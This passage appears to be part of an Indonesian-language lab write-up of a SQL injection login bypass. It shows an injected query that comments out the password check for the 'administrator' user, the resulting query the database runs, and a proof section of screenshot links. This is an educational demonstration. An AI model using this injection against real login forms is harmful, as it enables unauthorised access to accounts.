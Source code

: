 * SELECT * FROM users WHERE username = 'administrator'-- ' AND password = 'test'

Query yang Sebenarnya Dieksekusi Database:

* SELECT * FROM users WHERE username = 'administrator'

## Bukti

<img width="1244" height="652" alt="image" src="https://github.com/user-attachments/assets/be6582fc-2e87-4f7d-8a41-87660c0a635c" />
<img width="1230" height="660" alt="image" src="https://github.com/user-attachments/assets/23723410-4a04-4a32-bfd7-c29ddb81c794" />
<img width="1241" height="664" alt="image" src="https://github.com/user-attachments/assets/fa478d1f-a3f2-4f13-aac4-2c37e45aac51" />
<img width="1252" height="478" alt="image" src="https://github.com/user-attachments/assets/72a76679-a72e-4361-9c5c-18590350cdbb" />
<img width="1246" height="665" alt="image" src="https://github.com/user-attachments/assets/84146f76-707f-4209-b2b9-f5ec14bf0584" />

